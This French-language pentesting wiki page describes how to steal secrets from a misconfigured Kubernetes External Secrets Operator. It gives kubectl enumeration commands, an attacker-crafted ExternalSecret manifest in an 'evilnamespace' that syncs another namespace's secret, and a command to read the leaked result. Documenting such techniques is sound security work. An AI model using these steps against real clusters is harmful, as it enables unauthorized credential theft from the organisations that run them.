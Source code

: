 # External Secret Operator

**L'auteur original de cette page est** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Cette page donne quelques indications sur la façon dont vous pouvez réussir à voler des secrets d'un ESO mal configuré ou d'une application qui utilise ESO pour synchroniser ses secrets.

## Avertissement

La technique montrée ci-dessous ne peut fonctionner que lorsque certaines conditions sont remplies. Par exemple, cela dépend des exigences nécessaires pour permettre à un secret d'être synchronisé sur un namespace que vous possédez / avez compromis. Vous devez le découvrir par vous-même.

## Prérequis

1. Un accès dans un cluster kubernetes / openshift avec des privilèges d'administrateur sur un namespace
2. Accès en lecture sur au moins ExternalSecret au niveau du cluster
3. Déterminez s'il y a des labels / annotations ou une appartenance à un groupe requis qui permettent à ESO de synchroniser votre secret. Si vous avez de la chance, vous pouvez voler librement tout secret défini.

### Rassembler des informations sur le ClusterSecretStore existant

En supposant que vous avez un utilisateur qui a suffisamment de droits pour lire cette ressource ; commencez par lister d'abord les _**ClusterSecretStores**_ existants.
```sh
kubectl get ClusterSecretStore
```
### Enumeration des ExternalSecret

Supposons que vous ayez trouvé un ClusterSecretStore nommé _**mystore**_. Continuez en énumérant son externalsecret associé.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ce ressource est limitée à un espace de noms, donc à moins que vous ne sachiez déjà quel espace de noms rechercher, ajoutez l'option -A pour rechercher dans tous les espaces de noms._

Vous devriez obtenir une liste des externalsecret définis. Supposons que vous ayez trouvé un objet externalsecret appelé _**mysecret**_ défini et utilisé par l'espace de noms _**mynamespace**_. Rassemblez un peu plus d'informations sur le type de secret qu'il contient.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assemblage des pièces

À partir d'ici, vous pouvez obtenir le nom d'un ou plusieurs noms de secrets (comme défini dans la ressource Secret). Vous obtiendrez une sortie similaire à :
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Jusqu'à présent, nous avons :

- Nommer un ClusterSecretStore
- Nommer un ExternalSecret
- Nommer le secret

Maintenant que nous avons tout ce dont nous avons besoin, vous pouvez créer un ExternalSecret (et éventuellement patcher/créer un nouveau Namespace pour respecter les prérequis nécessaires pour synchroniser votre nouveau secret) :
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Après quelques minutes, si les conditions de synchronisation sont remplies, vous devriez pouvoir voir le secret divulgué dans votre espace de noms.
```sh
kubectl get secret leaked_secret -o yaml
```
## Références

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
